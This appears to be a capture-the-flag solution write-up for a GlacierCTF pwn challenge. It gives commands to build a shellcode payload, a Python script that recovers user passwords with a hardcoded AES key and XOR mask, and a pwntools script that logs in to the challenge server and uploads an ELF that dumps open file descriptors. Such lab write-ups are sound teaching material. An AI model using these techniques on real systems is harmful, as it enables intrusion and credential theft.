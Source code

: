 To build the payload:

```
$ gcc -masm=intel -nostdlib -static -m32 -fno-builtin -fomit-frame-pointer shellcode.c -o shellcode
$ strip --strip-all shellcode
$ base64 -w 0 shellcode > payload
```

## Solution Details

1) Supply username "steve" along with any password
2) Recover the encrypted base64 encoded password for steve e.g `123456 != bf1mNC/KawRK6/cHRtX2JtAr8MNIYLvo6CGabdc6oyg=`
3) Base64 decode and decrypt using aes ecb with the key `0xcac70947580d12ecf428594f087de550`
4) Xor with `0xc157553f73a73501e19c9509f873aca9bb695bc2e3700a2ec92c0231bbca390c`
5) Recover user steve's plaintext password `H$g7FAKVR8f3&k!@wmMd6Vdk3rHSUrwg`
6) Use `steve:H$g7FAKVR8f3&k!@wmMd6Vdk3rHSUrwg` to upload an elf which seeks to the start of any open file descriptor, other than stdin/stdout/stderr, and dumps the contents
7) Recover the encrypted base64 encoded password for admin `3cW6609oe6bhKvnI1tPrGD77pivtx3So4uAgahNEKeQ=`
8) Recover admin's plaintext password as above `glacierctf{Ju57_P0s1X_th1ng5}` which is the flag

```
from Crypto.Cipher import AES
import struct
import base64

def crack(password):
    key = struct.pack("<QQ", 0xcac70947580d12ec, 0xf428594f087de550)
    aes = AES.new(key, AES.MODE_ECB)
    m = aes.decrypt(base64.b64decode(password))
    n = struct.pack("<QQQQ", 0xc157553f73a73501, 0xe19c9509f873aca9, 0xbb695bc2e3700a2e, 0xc92c0231bbca390c)
    print(bytes([i^j for i,j in zip(m,n)]))

crack('bf1mNC/KawRK6/cHRtX2JtAr8MNIYLvo6CGabdc6oyg=') # steve:H$g7FAKVR8f3&k!@wmMd6Vdk3rHSUrwg
crack('3cW6609oe6bhKvnI1tPrGD77pivtx3So4uAgahNEKeQ=') # admin:glacierctf{Ju57_P0s1X_th1ng5}
```

```
from pwn import *

io = remote('pwn.glacierctf.com', port=13374)

with open('./payload', 'r') as f:
  payload = f.read()

io.sendline(payload.encode())

io.recvregex('Username:'.encode())
io.sendline('steve'.encode())
io.recvregex('Password:'.encode())
io.sendline('H$g7FAKVR8f3&k!@wmMd6Vdk3rHSUrwg'.encode())

io.interactive()
```
